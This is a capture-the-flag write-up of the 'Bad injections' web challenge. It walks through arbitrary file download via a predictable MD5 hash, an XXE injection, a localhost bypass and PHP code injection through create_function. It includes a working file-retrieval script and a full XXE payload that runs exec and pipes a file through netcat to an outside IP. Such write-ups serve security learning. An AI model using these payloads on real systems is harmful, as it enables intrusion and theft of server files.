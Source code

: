 # Bad injections

## Prologue
This was a hard challenge for me, I banged my head a bit, but, all in all, I learned a lot, so thanks for this fun challenge!
## Enumerating the challenge
![Home page](https://i.imgur.com/dcBUrkd.png)
On the website we don't see much, except four tabs. The home, about, contact pages don't have anything of interesting. The contact page injection is a rabbit hole.

In the list source code we see:
```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b
```
The hash is md5, so that gives us file retrieval from anywhere in the server, using a script:
```
import requests
import hashlib
import sys

dfile = sys.argv[1]
m = hashlib.md5()
m.update(dfile)
dhash = m.hexdigest()
print "downloading file: {0}, md5sum: {1}".format(dfile, dhash)
print "http://68.183.31.62:94/download?file={0}&hash={1}".format(dfile, dhash)
c = requests.get("http://68.183.31.62:94/download?file={0}&hash={1}".format(dfile, dhash))
print c.content
```
## XXE injection
In /app/Routes.php we can see:
```
Route::set('custom',function(){
  $handler = fopen('php://input','r');
  $data = stream_get_contents($handler);
  if(strlen($data) > 1){
    Custom::Test($data);
  }else{
    Custom::createView('Custom');
  }
});
```
It takes some input from HTTP request and then passes it on to Custom::Test.
Custom::Test contains:
```
class Custom extends Controller{
  public static function Test($string){
      $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
      $test = $root->name;
      echo $test;
  }

}
 ?>
```
We can use XXE injection to retrieve files (and something else!). Using Burp we can test this.
![XXE injection in Burp](https://i.imgur.com/qGts3y8.png)As we can see the XXE injection is functional. But we can't really do anything with it right now.
## Localhost bypass
Routes.php also contains:
```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
```
Which checks if you're coming from localhost or from other address and depending on this it either echoes or calls Admin::sort.

Admin::sort contains:
```
     usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```
Which is an obvious code injection, which we can use. It also contains some other XML stuff, that's easily craftable.

## Everything put together
We use the XXE injection to bypass localhost protection, then make a request to /admin route which then can give us code execution.
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://45.76.39.243/a.xml&order=link.file_get_contents('http://{your_ip}/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'45.76.39.243'.chr(32).'1234'))">
]>
<root><name>&xxe;</name></root>
```

And we get the flag:
```
f#{1_d0nt_kn0w_wh4t_i4m_d01ng}
```

## Conclusion
This was a really hard challenge for me, but I felt so proud when I solved it. Shout-out to Fireshell for making this great chal.
